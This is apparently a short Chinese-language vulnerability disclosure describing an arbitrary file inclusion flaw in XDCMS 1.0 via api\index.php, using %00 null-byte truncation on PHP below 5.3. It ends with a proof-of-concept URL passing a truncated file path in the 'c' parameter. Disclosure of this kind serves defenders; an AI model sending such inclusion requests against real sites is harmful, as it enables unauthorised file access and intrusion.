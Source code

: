 XDCMS 1.0 任意文件包含漏洞
==========================

一、漏洞简介
------------

要求PHP版本小于5.3，否则无法使用%00截断

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

漏洞文件：`api\index.php`

![](resource/XDCMS1.0任意文件包含漏洞/media/rId24.jpg)

![](resource/XDCMS1.0任意文件包含漏洞/media/rId25.jpg)

安全过滤函数 发生鸡肋

很明显 %00截断

    http://www.0-sec.org/api/index.php?c=xxxxxx%00dama.php  
